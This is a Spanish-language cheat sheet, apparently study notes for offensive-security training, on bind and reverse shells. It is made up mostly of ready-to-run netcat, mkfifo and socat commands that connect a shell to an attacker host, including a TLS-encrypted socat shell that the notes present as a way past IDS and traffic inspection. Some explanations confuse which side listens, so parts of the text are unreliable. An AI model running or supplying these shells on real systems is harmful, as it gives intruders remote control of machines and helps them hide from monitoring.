 ### I. **Resumen Operativo: Netcat como listener de bind/reverse shell**

---

#### A. **Bind Shell con Netcat (con `-e`)**

```bash
nc -lvnp <PORT> -e /bin/bash
```

**Funciona solo si netcat tiene soporte para `-e`**, como:

* `nc.exe` de Windows (`/usr/share/windows-resources/binaries/nc.exe` en Kali)
* `netcat-traditional` en Kali Linux

**Flujo:**

1. Atacante escucha (`-l`)
2. Víctima se conecta (TCP client)
3. Se ejecuta `/bin/bash` al conectar
4. Atacante obtiene shell interactivo

---

#### B. **Reverse Shell con Netcat (con `-e`)**

```bash
nc <ATACANTE_IP> <PORT> -e /bin/bash
```

**Flujo:**

1. Víctima inicia conexión TCP hacia atacante
2. Ejecuta bash al establecer la conexión
3. Atacante ya estaba escuchando con `nc -lvnp <PORT>`
4. Shell controlado remotamente

---

#### C. **Netcat sin `-e`: Shell con FIFO**

```bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f
```

##### Desglose:

1. `mkfifo /tmp/f`: crea un **named pipe (FIFO)** en `/tmp/f`
2. `nc -lvnp <PORT> < /tmp/f`: netcat lee desde la tubería FIFO
3. `| /bin/sh > /tmp/f 2>&1`: lo que llega a netcat (stdin del atacante) se pasa a `/bin/sh`, cuyo stdout y stderr se redirigen de nuevo a la FIFO
4. `rm /tmp/f`: limpia el pipe después de uso

**Resultado**: al conectar, lo que escribe el atacante va a bash, y lo que bash responde vuelve al atacante. Circunvalación del flag `-e`.

---

### II. **SOCAT: Alternativa moderna y flexible**

---

#### A. **Listener de Reverse Shell con Socat**

**Atacante escucha en 443 y obtiene shell:**

```bash
socat TCP-LISTEN:443,reuseaddr,fork EXEC:/bin/bash
```

#### B. **Víctima conecta:**

```bash
socat TCP:<ATACANTE_IP>:443 EXEC:/bin/bash
```

---

#### C. **Encrypted Shell con Socat (TLS)**

**Generar certificado en atacante:**

```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem
```

#### Listener (atacante):

```bash
socat OPENSSL-LISTEN:443,reuseaddr,fork,cert=cert.pem,key=key.pem EXEC:/bin/bash
```

#### Reverse Shell (víctima):

```bash
socat OPENSSL:<ATACANTE_IP>:443,verify=0 EXEC:/bin/bash
```

**Ventajas:**

* Encriptación TLS (dificulta inspección de tráfico)
* No requiere `-e`
* Más silencioso en entornos con IDS

---

### III. **Refuerzo conceptual previo**

---

| Tema                    | Resumen operativo                                                          |
| ----------------------- | -------------------------------------------------------------------------- |
| `nc -e`                 | Ejecuta un comando al recibir conexión, útil para bindshell y reverseshell |
| FIFO (mkfifo)           | Canal de comunicación unidireccional entre procesos (named pipe)           |
| `/bin/sh` o `/bin/bash` | Shell UNIX; permite ejecutar comandos                                      |
| `socat`                 | Herramienta para redirigir flujos de datos entre sockets, procesos, pipes  |
| TLS con socat           | Capa de cifrado que oculta el tráfico del shell                            |

---

### IV. **Glosario Técnico**

| Término                   | Definición                                                                          |
| ------------------------- | ----------------------------------------------------------------------------------- |
| **Bind Shell**            | La víctima escucha una conexión entrante; el atacante se conecta para obtener shell |
| **Reverse Shell**         | La víctima inicia la conexión saliente; el atacante recibe shell                    |
| **Named Pipe (FIFO)**     | Archivo especial usado para redirigir entrada/salida entre procesos                 |
| **`-e` (netcat)**         | Ejecuta un programa (como `/bin/bash`) cuando alguien se conecta                    |
| **`socat`**               | Utility para redirigir tráfico entre sockets, comandos, archivos                    |
| **`reuseaddr`**           | Permite reutilizar un puerto incluso si está en estado TIME\_WAIT                   |
| **`fork`**                | Crea múltiples instancias para manejar conexiones simultáneas                       |
| **`OPENSSL` (socat)**     | Establece conexión cifrada TLS                                                      |
| **`cert.pem`, `key.pem`** | Certificado y clave privada TLS para conexiones seguras                             |
| **`verify=0`**            | Desactiva validación del certificado (útil para pruebas o shells rápidos)           |

---

### V. **Resumen de Comandos Ejecutables**

```bash
# Reverse shell con netcat (si tiene -e)
nc <ATACANTE_IP> <PORT> -e /bin/bash

# Bind shell sin -e con named pipe
mkfifo /tmp/f; nc -lvnp 4444 < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f

# Listener socat sin cifrado
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash

# Conexión reverse shell socat sin cifrado
socat TCP:<ATACANTE_IP>:4444 EXEC:/bin/bash

# Listener socat con cifrado
socat OPENSSL-LISTEN:443,reuseaddr,fork,cert=cert.pem,key=key.pem EXEC:/bin/bash

# Reverse shell socat con cifrado
socat OPENSSL:<ATACANTE_IP>:443,verify=0 EXEC:/bin/bash
```

---
